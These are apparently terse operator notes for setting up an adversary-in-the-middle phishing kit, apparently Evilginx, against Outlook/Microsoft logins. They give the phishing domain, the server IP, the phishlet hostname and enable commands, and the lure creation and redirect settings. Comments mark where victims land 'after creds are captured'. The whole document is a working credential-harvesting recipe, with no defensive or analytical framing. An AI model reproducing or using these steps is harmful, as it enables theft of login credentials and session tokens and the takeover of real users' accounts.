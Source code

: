 {phish_sub: 'application', orig_sub: 'application', domain: 'actualdomain.com', session: true, is_landing: true, auto_filter: true}
auto_filter: true   <<  attempts to make filters automatically

phishlet hide outlook

config redirect_url https://www.google.com                  < on error 
lures edit 0 redirect_url https://idm.hak.loc/app/UserHome   < finishes login


config
config domain j0n.cc
config ipv4 54.215.138.229
config redirect_url https://outlook.com
config redirect_url https://login.live.com


For NEW Phishlets do this
1. add new phishlet to /phishlets directory
2. phishlets hostname outlook j0n.cc
3. phishlets enable outlook  < TLS will fail initially 
4. lures create mo 
    lures
5. lures get-url [number]
6. lures edit path 5 mo
    https://mo-idp.j0n.cc/mo
   lures edit 3 redirect_url https://sub.actualdomain.com   << where user is directed after creds are captured
7. config redirect_url https://actualdomain.com
